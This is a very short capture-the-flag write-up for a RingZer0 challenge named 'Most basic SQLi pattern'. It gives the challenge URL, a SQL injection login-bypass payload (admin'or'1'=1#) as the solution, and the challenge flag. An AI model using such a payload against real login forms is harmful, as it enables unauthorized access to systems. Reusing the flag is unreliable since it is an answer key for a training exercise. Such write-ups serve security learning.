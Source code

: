 <h1>Most basic SQLi pattern</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10001/</p>
<h3>Solution</h3>

<p>Payload : <b>admin'or'1'=1#</b></p>

<h3>Flag</h3>
<pre>
FLAG-238974289383274893
</pre>
